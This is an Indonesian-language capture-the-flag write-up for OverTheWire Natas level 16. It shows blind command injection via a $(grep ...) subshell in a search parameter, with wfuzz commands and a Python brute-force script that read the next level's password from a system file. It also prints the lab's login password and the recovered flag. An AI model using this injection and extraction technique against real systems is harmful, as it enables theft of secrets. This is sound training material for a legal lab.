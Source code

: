 ```yaml
---
layout: default
level: 16
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas16
URL:      http://natas16.natas.labs.overthewire.org

# solve 
- login with cred natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
- lalu saya melihat source codenya
  ![alt text](docs/images/image-50.png)
- jika kita lihat disini seperti tantangan yang sebelumnya
- namun ketika saya coba seperti sebelumnya itu tidak berhasil
  ![alt text](docs/images/image-51.png)
- lalu saya mencari tentang sub shell, dan mencoba ini
  ![alt text](docs/images/image-52.png)
  ```bash
  grep $(echo a) dictionary.txt 
  # maka dictionary akan tampil

  # dan secara teori fungsi "$(coommand)" adalah subshell
  # yang dimana jika saya lakukan cat $(file1.txt) file2.txt
  ```
- dan saya ingin mencoba mencari tau dengan grep di dalam grep
  - jadi ketika saya ```grep $(grep a /etc/natas_webpass/natas17) dictionary.txt```
  - saya berharap ketika saya grep a pada password natas17 dan jika memang ada filenya dan
    - dan hasil dari output subshell misal ```afdadfafas``` akan di lakukan ```grep -i fafadfafa dictionary.txt```
  - yang secara teori hasilnya akan kosong
- nah disini saya mencoba dulu apakah benar berhasil
  ![alt text](docs/images/image-53.png)
  ![alt text](docs/images/image-54.png)
  ```bash
  $(grep a /etc/natas_webpass/natas17) # showing     ==> false
  $(grep b /etc/natas_webpass/natas17) # not showing ==> true
  ```
- disini jika kita coba ketika grep a tidak ada asumsi paswword tidak menggunakan a dan karena tidak ada ketika di grep yang kedua dia akan melakukan grep a
- sedangkan ketika coba b tidak muncul yang berarti grep yang pertama berhasil, lalu gagal di kedua makanya kosong
- dan sebnernya kalo di cli kalo run kaya gitu ada error jika teksnya itu tidak ada di grep yang pertama
  - solusinya tambahkan string di akhir
    ```bash
    $(grep a /etc/natas_webpass/natas17)a
    ```
- hanya saja masalahnya kita tidak tahu huruf itu adalah huruf pertama atau terakhir
  - dan saya menemukan solusi kita bisa gunakan regex
    ```bash
    $(grep ^b /etc/natas_webpass/natas17)a
    ```
- lalu saya mencoba menggunakan wfuzz untuk menbrute force 1 kata per kata
  ```bash
  wfuzz -H "Authorization: Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw==" -w chars -u 'natas16.natas.labs.overthewire.org/?needle=$(grep ^FUZZ /etc/natas_webpass/natas17)a&submit=Search'
  # output all

  | grep -v 24202 # grep output
  | grep -v 24202 | tr -d "L" # hapus karakter L karena tiba tiba ada karakter L
  | grep -v 24202 | tr -d "L" | tr -d "\n" # hapus nweline
  
  $(grep ^FUZZ /etc/natas_webpass/natas17)
  # 000000031:   200        28      79 W       1105 Ch     "E"
  $(grep ^EFUZZ /etc/natas_webpass/natas17)
  # 000000017:   200        28      79 W       1105 Ch     "q"
  # dan seterusnya
  # EqjHJbo7LF
  # EqjHJbo7LFNb8vw
  # EqjHJbo7LFNb8vwhHb9s75
  # EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

  # dan ternyata sudah uruf 30+ yang berarti sudah ketemu passwordnya

  wfuzz -H "Authorization: Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw==" -w chars -u 'natas16.natas.labs.overthewire.org/?needle=$(grep ^EqjHJbo7LFNb8vwhHb9s75hokh5TF0OFUZZ /etc/natas_webpass/natas17)a&submit=Search' | grep -v 24202
  # EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
  ```

## solve with script python
- script
  ```py
  import requests
  from string import ascii_letters, digits

  url = "http://natas16.natas.labs.overthewire.org"
  username = "natas16"
  password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

  def brute_force_chars():
      charset = ascii_letters + digits
      found_password = ""

      while True:
          for char in charset:
              test_password = found_password + char
              payload = f"$(grep ^{test_password} /etc/natas_webpass/natas17)a"

              response = requests.get(
                  url,
                  auth=(username, password),
                  params={"needle": payload, "submit": "Search"}
              )

              if "African" not in response.text:
                  found_password += char
                  print(f"[+] Password so far: {found_password}")
                  break
          else:
              print("[+] Password found:", found_password)
              return

  if __name__ == "__main__":
      brute_force_chars()
  ```
- run
  ```bash
  python3 overthewire/natas/solve/level16.py 
  [+] Password so far: E
  [+] Password so far: Eq
  [+] Password so far: Eqj
  [+] Password so far: EqjH
  ......
  [+] Password so far: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
  ```

## subshell
```bash
cat pass
ariafatah

grep -i $(grep a pass) dictionary # not show because in pass have char a
grep -i $(grep b pass) dictionary # not showing because not have b in chat but stuck loading
^C

grep -i $(grep b pass)a dictionary | head # solusinya menambahkan string lagi di akhir
# African
# Africans

# fungsi string akhir itu biar ketika kita tidak menemukan huruf b pada pass dan ketika dia melakukan pengecekan
# kosong dari dictionary maka seharusnya akan menambahkan huruf a gitu
# jadi nanti hasilnya bakal grep -i a dictionary
# dan bukan grep -i  dictionary

# ya intinya fungsinya subshell akan dijalankan terlebih dahulu
# setelah itu hasil dari subshell akan dibaca oleh cat lalu, akan melanjutkan comman selanjutnya

grep -i $(grep ^ariafatah pass)a dictionary | head # true
grep -i $(grep ^aria pass)a dictionary | head # true
grep -i $(grep ^fatah pass)a dictionary | head # false
# African
# Africans

# sebenerya ada tamabahn option biar lebih spesifik untuk regexnya
grep -E ^a.*$

grep -i $(grep -E ^aria.*$  pass)a dictionary | head
grep -i $(grep -E ^ariafatah.*$  pass)a dictionary | head
grep -i $(grep -E ^ariafataha.*$  pass)a dictionary | head
# African
# Africans

## namun hasilnya akan tetap sama aja sih sebenernya
```

# flag
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC